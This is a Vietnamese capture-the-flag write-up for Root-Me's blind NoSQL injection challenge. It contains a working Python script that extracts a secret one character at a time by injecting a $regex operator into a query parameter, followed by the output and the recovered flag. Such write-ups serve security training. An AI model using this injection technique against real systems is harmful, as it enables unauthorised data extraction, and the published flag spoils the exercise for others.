


# NoSQL injection - Blind

## Đề bài



Link: [http://challenge01.root-me.org/web-serveur/ch48/](http://challenge01.root-me.org/web-serveur/ch48/)



## Hướng giải

Theo yêu cầu, đây là một challenge về NoSQL Injection - Blind, ta tham khảo [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#get) và chỉnh sửa, được đoạn script như sau:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

flag=''
u='http://challenge01.root-me.org/web-serveur/ch48/index.php'

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
      payload='?chall_name=nosqlblind&flag[$regex]=^%s' % (flag + c)
      r = requests.get(u + payload)
      if 'Yeah' in r.text:
        print("Found one more char : %s" % (flag+c))
        flag += c
```

Khi chạy đoạn code trên, ta thu được kết quả như sau:

```shell
Found one more char : 3
Found one more char : 3@
Found one more char : 3@s
Found one more char : 3@sY
Found one more char : 3@sY_
Found one more char : 3@sY_n
Found one more char : 3@sY_n0
Found one more char : 3@sY_n0_
Found one more char : 3@sY_n0_5
Found one more char : 3@sY_n0_5q
Found one more char : 3@sY_n0_5q7
Found one more char : 3@sY_n0_5q7_
Found one more char : 3@sY_n0_5q7_1
Found one more char : 3@sY_n0_5q7_1n
Found one more char : 3@sY_n0_5q7_1nj
Found one more char : 3@sY_n0_5q7_1nj3
Found one more char : 3@sY_n0_5q7_1nj3c
Found one more char : 3@sY_n0_5q7_1nj3c7
Found one more char : 3@sY_n0_5q7_1nj3c71
Found one more char : 3@sY_n0_5q7_1nj3c710
Found one more char : 3@sY_n0_5q7_1nj3c710n
```

Vậy key là: `3@sY_n0_5q7_1nj3c710n`.